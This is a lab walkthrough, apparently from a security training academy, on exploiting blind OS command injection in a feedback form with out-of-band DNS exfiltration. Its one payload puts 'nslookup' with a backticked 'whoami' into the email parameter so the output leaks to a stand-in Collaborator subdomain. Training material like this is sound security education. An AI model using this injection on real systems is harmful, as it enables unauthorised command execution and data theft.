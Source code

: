 # Blind OS command injection with out-of-band data exfiltration

## Description

This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

## Reproduction and proof of concept

1. Use Burp Suite Professional to intercept and modify the request that submits feedback.
2. Go to the Collaborator tab.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
4. Modify the `email` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:

```
email=||nslookup+`whoami`.burp-collab-subdomain||
```
    
5. Go back to the Collaborator tab, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.
7. To complete the lab, enter the name of the current user.

## Exploitability

An attacker will need to execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator, and then enter the name of the current user to complete the lab. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server (or a C2)._

